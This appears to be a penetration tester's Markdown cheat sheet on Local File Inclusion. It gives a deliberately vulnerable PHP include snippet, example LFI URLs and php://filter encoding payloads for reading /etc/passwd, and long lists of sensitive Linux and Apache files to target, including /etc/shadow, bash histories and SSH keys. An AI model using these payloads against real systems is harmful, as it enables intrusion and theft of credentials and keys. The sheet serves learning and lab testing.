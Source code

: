 # LFI Local_File_Inclusion #Important_file_loc

**LFI - Local File Inclusion**
Requirements: unchecked variable processed on page load
Examples: 
	* jscript - $err
	* `<?php $err ?>`
	* `<?PHP include($_GET["file"]);  ?>`

**Var Requirements**
	* if there is an variable on the page, try it
	* Try LFI as:
		* Clear text
		* url encoded
		* quoted in double or single quotes

**example LFI's:** 
    - `http://url/index.php?err=[lfi]`
    - `http://example.com/index.php?file=/etc/passwd`
    - message body injection via proxy  `varname=/etc/passwd`

**Encoding Methods if standard text does not work or page contains code. **
    - Rot13 - `http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd` 
    - Base64 - `http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`
	- Many more, look them up... 
	- use cyberchef or cmdlets to decode quickly


**LINUX - Important OS Files:**
	- /etc/passwd - Validates if LFI will work in most cases
	- /etc/init.d
	- /etc/issue
	- /etc/shadow
	- /etc/group
	- /etc/hosts
	- /etc/motd
	- /etc/mysql/my.cnf
	- /proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
	- /proc/self/environ
	- /proc/version
	- /proc/cmdline
	- /etc/rc.d
	- /etc/HOSTNAME 			- Servers host name info
	- /etc/network/interfaces 	- may have other networks connected that you can view / search
	- /etc/profile
	- /etc/apt/sources.list 	- list of all packages installed, may have some tools avail
	- /etc/resolv.conf			- name server config, reveal more servers or domain info 
	- /home/[user]/.bash_history - bash history, may reveal passwords for users
	- /root/.bash_history		- may find root password, or other network locations to target
	- ~/.ssh					- RSA keys for ssh login possible. 
	- /var/log					- log files, may have sensitive info or other absolute paths to view
	- /var/spool/cron			- All cron files 
	- /var/log/apache/access.log	- Connection log, absolute paths to items
	- /etc/fstab				- All attached storage

**LINUX - Apache default install locations** 
	- /var/apache2/
	- /etc/apache2/
	- /etc/httpd/
	- /etc/httpd/conf
	- /usr/local/...
	- /opt....

**Important Apache Files:**
	- /etc/init.d/apache2
	- /etc/init.d/httpd
	- apache2.conf
	- conf/http.conf
	- http.conf
	- .htaccess
	- ~/sites-available/
		- default
		- default.ssl
	- ~/sites-enabled/
	- ~/mods-available/
	- ~/mods-enabled/
	